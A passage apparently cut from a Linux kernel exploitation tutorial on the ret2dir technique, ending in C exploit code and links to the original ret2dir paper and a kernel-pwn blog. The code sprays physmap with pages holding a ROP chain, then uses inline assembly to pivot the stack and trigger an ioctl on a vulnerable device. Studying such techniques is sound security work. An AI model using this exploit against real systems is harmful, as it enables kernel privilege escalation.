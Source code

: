 ```c
        errExit("dev fd!");

    page_size = sysconf(_SC_PAGESIZE);

    // construct per-page rop chain
    physmap_spray_arr[0] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    constructROPChain(physmap_spray_arr[0]);

    // spray physmap, so that we can easily hit one of them
    puts("[*] Spraying physmap...");
    for (int i = 1; i < 15000; i++)
    {
        physmap_spray_arr[i] = mmap(NULL, page_size, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
        if (!physmap_spray_arr[i])
            errExit("oom for physmap spray!");
        memcpy(physmap_spray_arr[i], physmap_spray_arr[0], page_size);
    }

    puts("[*] trigger physmap one_gadget...");
    //sleep(5);

    try_hit = 0xffff888000000000 + 0x7000000;
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   0x22222222;"
        "mov r12,   0x33333333;"
        "mov rbp,   0x44444444;"
        "mov rbx,   0x55555555;"
        "mov r11,   0x66666666;"
        "mov r10,   0x77777777;"
        "mov r9,    pop_rsp_ret;"   // stack migration again
        "mov r8,    try_hit;"
        "mov rax,   0x10;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   try_hit;"
        "mov rsi,   0x1bf52;"
        "mov rdi,   dev_fd;"
        "syscall"
    );
}
```

## REFERENCE

[http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf](http://www.cs.columbia.edu/~vpk/papers/ret2dir.sec14.pdf)

[https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir](https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#0x03-Kernel-ROP-ret2dir)
